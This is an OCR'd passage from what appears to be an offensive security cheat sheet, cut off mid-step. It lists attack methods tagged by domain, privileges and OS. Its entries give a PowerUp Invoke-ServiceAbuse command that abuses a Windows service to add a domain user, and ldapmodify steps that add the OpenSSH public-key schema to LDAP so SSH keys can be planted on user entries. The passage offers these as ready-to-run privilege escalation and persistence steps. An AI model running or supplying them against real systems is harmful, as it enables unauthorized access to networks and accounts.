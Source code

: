 Type: Abusing Services

Methods:

. .\\PowerUp.ps1

Invoke-ServiceAbuse -Name 'browser' -UserName 'domain\\user1'

<a name="abusing-ldap"></a>
# Abusing LDAP

Domain: Yes

Local Admin: Yes

OS: Linux

Type: Abusing Services

Methods:

0\. exec ldapmodify -x -w PASSWORD

1\. paste this

dn: cn=openssh-lpk,cn=schema,cn=config

objectClass: olcSchemaConfig

cn: openssh-lpk

olcAttributeTypes: ( 1.3.6.1.4.1.24552.500.1.1.1.13 NAME
\'sshPublicKey\'

DESC \'MANDATORY: OpenSSH Public key\'

EQUALITY octetStringMatch

SYNTAX 1.3.6.1.4.1.1466.115.121.1.40 )

olcObjectClasses: ( 1.3.6.1.4.1.24552.500.1.1.2.0 NAME \'ldapPublicKey\'
SUP top AUXILIARY

DESC \'MANDATORY: OpenSSH LPK objectclass\'

MAY ( sshPublicKey \$ uid )

)

2\. exec ldapmodify -x -w PASSWORD

3\. paste this

dn: uid=UID,ou=users,ou=linux,ou=servers,dc=DC,dc=DC

changeType: modify

add: objectClass

objectClass: ldapPublicKey

\-
